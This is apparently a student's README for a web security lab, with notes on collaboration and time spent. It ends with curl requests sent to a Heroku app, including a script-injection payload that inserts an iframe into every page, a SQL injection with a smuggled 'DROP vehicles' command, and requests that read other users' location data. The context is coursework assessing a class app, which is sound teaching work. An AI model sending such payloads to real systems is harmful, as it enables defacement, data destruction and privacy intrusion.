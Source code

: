 Project by Katherine Wadhwani

Correctness and Troubleshooting:
To the best of my understanding, all parts of this project have been implemented correctly. I did, however, find it difficult to understand what I modifications I versus others had made, as the website kept changing.

Collaboration:
I discussed this project with Thomas, Murt, and Dan. I was struggling and they kindly helped explain where I was going wrong. In particular, Thomas bettered my understanding of how to preform a SQL injection. All ideas, however, were my own.

Hours to Complete:
I took about 8 hours to complete the lab.

Note: While we were not particularly asked to show our curl requests for our Security and Privacy Assessment report, I wanted to include them. Putting them in the html document proved difficult, as some were interpreted as script. For these reasons, I have displayed them below.


<b>Cross-Site Scripting </b>
  - curl -d "username=<script>var b=document.getElementsByTagName('body')[0],i=document.createElement('iframe');i.src='https://www.google.com/embed/the-simpson-s-home-
    interactive';i.style.width='50%';i.style.height='50%';i.frameBorder='0';i.allow='gamepad *';b.insertBefore(i,b.firstChild);</script>&lat=34342.944&lng=943432.32345" 
    -X POST https://jordan-marsh.herokuapp.com/rides
  
<b>SQL Injection</b>  
   - curl -d "username= whatever; DROP vehicles;&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/update

<b>General Privacy</b>
  - curl -d "username=a&lat=34342.944&lng=943432.32345" -X POST https://jordan-marsh.herokuapp.com/rides
  - https://jordan-marsh.herokuapp.com/vehicle.json?username=J1r5pEAO
  
  
